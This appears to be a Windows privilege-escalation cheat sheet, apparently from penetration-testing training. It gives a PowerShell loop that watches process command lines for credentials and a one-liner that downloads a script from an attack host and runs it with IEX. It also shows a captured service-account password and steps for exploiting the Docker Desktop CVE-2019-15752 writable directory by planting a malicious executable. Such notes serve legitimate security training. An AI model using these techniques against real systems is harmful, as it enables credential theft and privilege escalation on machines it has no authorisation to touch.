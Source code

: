 ### PowerShell Process Monitor
```powershell
# Monitor for credentials in command lines:
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

### Remote Script Execution
```powershell
# Host script on attack machine and execute remotely:
IEX (iwr 'http://10.10.10.205/procmon.ps1')

# Example captured command:
net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd

# Result: Domain service account credentials revealed
```

### Target Processes
```cmd
# Look for processes containing:
- net use commands with /user: parameter
- Database connection strings
- Service account authentications
- Scheduled task executions with credentials
- Backup operations with stored passwords
```

## 🗂️ Vulnerable Services Exploitation

### Docker Desktop CVE-2019-15752
```cmd
# Vulnerability details:
- Affects Docker Desktop Community Edition before 2.1.0.1
- Misconfigured directory: C:\PROGRAMDATA\DockerDesktop\version-bin\
- BUILTIN\Users group has full write access
- Missing files: docker-credential-wincred.exe, docker-credential-wincred.bat

# Exploitation:
1. Check Docker version: docker --version
2. Verify directory permissions: icacls C:\PROGRAMDATA\DockerDesktop\version-bin\
3. Place malicious executable in directory
4. Wait for Docker restart or 'docker login' command
```

### Service Enumeration Strategy
```cmd
# Look for vulnerable service versions:
- Docker Desktop < 2.1.0.1
- Other applications with writable directories
- Services running with elevated privileges
- Applications with predictable file searches
```
